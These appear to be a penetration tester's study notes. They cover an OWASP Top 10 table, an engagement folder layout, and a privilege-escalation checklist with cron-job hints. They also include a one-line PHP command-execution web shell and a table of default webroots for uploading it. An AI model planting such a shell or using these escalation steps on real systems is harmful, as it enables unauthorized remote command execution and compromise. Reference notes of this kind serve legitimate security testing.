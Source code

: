 -   Network and infrastructure security
-   Application security
-   Security testing
-   Systems auditing
-   Business continuity planning
-   Digital forensics
-   Incident detection and response


# Risk managment process

![[Pasted image 20230322133208.png]]


# Folder structure

```c
Projects/
|__Acme Company
	|__EPT
	|	|__Evidence
	|	|	|__Credentials
	|	|	|__Data
	|	|	|__Secreenshots
	|	|__ logs
	|	|__ scas
	|	|__ scope
	|	|__ tools
	|__	IPT
		|__ Evidence
		|		|__Credentials
		|		|__Data
		|		|__Secreenshots
		|__ logs
		|__ scans
		|__ scope
		|__ tools
```

# TOP 10 OWASP (open source web applications security project)

- Most of our assesments would be arround #OWASP 10, not nessesarily but commenly.
- 
 | NUMBER | CATEGORY                                    | DESCRIPTION                                                                                                                                                                                                                                                                                  |
 | ------ | ------------------------------------------- | -------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
 | 1.     | Broken access control                       | Resctrictions are not emplimented, users can access other users data, view sensitive data,...etc                                                                                                                                                                                             |
 | 2.     | Cryptographic failures                      | Cryptography related failure often leads to data leak, or system compromise                                                                                                                                                                                                                  |
 | 3.     | Injection                                   | User-supplies data is not validated & sanitised, leads to data exposure, system compromisation, examples of this are SQL injection, command injection, LDAP injection ... etc                                                                                                                |
 | 4.     | Insecure Design                             | These issues happen when the application is not designed with security in mind.                                                                                                                                                                                                              |
 | 5.     | Security Misconfiguration                   | Missing appropriate security hardening, leading to data exposure, insecure default configurations, open cloud sotrage ..., Verbose error handeling leading to the leak of sensetive information                                                                                              |
 | 6.     | Vulnerable and Outdated Components          | Using components (both client-side and server-side) that are vulnerable, unsupported, or out of date.                                                                                                                                                                                        |
 | 7.     | Identifications and authentications failure | Authentication-related attacks that target user's identity, authentication, and session management.                                                                                                                                                                                          |
 | 8.     | Software  and Data Integrity Failure        | Software and data integrity failures relate to code and infrastructure that does not protect against integrity violations. An example of this is where an application relies upon plugins, libraries, or modules from untrusted sources, repositories, and content delivery networks (CDNs). |
 | 9.     | Security Logging and Monitoring Failures    | This category is to help detect, escalate, and respond to active breaches. Without logging and monitoring, breaches cannot be detected..                                                                                                                                                     |
 | 10.    | Server-Side request Forgery                 | SSRF flaws occur whenever a web application is fetching a remote resource without validating the user-supplied URL. It allows an attacker to coerce the application to send a crafted request to an unexpected destination, even when protected by a firewall, VPN, or another type of network access control list (ACL).                                                                                                                                                                                                                                                                                            |


# Uploading Web shell

Default webroots to upload web shell into
| Web Server | Default Webroot        |
| ---------- | ---------------------- |
| Apache     | /var/www/html/         |
| Nginx      | /usr/local/nginx/html/ |
| ISS        | c:\\intepub\\wwwroot\\ |
| XAMPP      | C:\\xampp\\htdocs\\    |

Php request shell, accepts, post & get
```php
<?php system($_REQUEST["cmd"]); ?>
```


# Priv-esc Small cheklist
1. Kernel
2. Vulnerable software
	-  dpkg -l , C:\\Program Files
1. credentials
2. database
3. set uids, guids
4. Windows Token  Privileges
5. Scheduled Tasks
6. Exposed credentials
	- LOG files, configuration files
7. Passwords re-use
8. SSH keys
9. Internal services

# #Bins

| SYSTEM  | SOURCE                             |
| ------- | ---------------------------------- |
| Windows | https://lolbas-project.github.io/# |
| linux   | https://gtfobins.github.io/        |


- Con jobs
 if we have the write permission to those directories
 /etc/crontab
 /etc/cron.d
 /var/spool/cron/crontab/root